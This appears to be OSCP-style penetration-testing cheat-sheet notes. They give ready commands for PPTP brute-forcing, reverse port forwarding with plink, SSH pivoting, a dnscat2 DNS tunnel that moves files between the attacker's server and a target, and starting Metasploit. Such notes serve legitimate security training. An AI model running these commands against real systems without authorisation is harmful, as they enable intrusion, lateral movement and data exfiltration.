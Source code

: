 PPTP Hacking

Identifying PPTP, it listens on TCP: 1723
NMAP PPTP Fingerprint:
nmap –Pn -sV -p 1723 TARGET(S)
PPTP Dictionary Attack
thc-pptp-bruter -u hansolo -W -w /usr/share/wordlists/nmap.lst
Port Forwarding/Redirection

PuTTY Link tunnel - SSH Tunneling

Forward remote port to local address:
plink.exe -P 22 -l root -pw "1337" -R 445:$ip:445 $ip
SSH Pivoting

SSH pivoting from one network to another:
ssh -D $ip:1010 -p 22 user@$ip
DNS Tunneling

dnscat2 supports “download” and “upload” commands for getting files (data and programs) to and from the target machine.

Attacking Machine Installation:
apt-get update
apt-get -y install ruby-dev git make g++
gem install bundler
git clone https://github.com/iagox86/dnscat2.git
cd dnscat2/server
bundle install

Run dnscat2:
ruby ./dnscat2.rb
dnscat2> New session established: 1422
dnscat2> session -i 1422

Target Machine:
https://downloads.skullsecurity.org/dnscat2/ https://github.com/lukebaggett/dnscat2-powershell/
dnscat --host <dnscat server_ip>

The Metasploit Framework
See Metasploit Unleashed Course in the Essentials

Search for exploits using Metasploit GitHub framework source code:
https://github.com/rapid7/metasploit-framework
Translate them for use on OSCP LAB or EXAM.

Metasploit

MetaSploit requires Postfresql
systemctl start postgresql

To enable Postgresql on startup
systemctl enable postgresql

MSF Syntax

Start metasploit
msfconsole
msfconsole -q
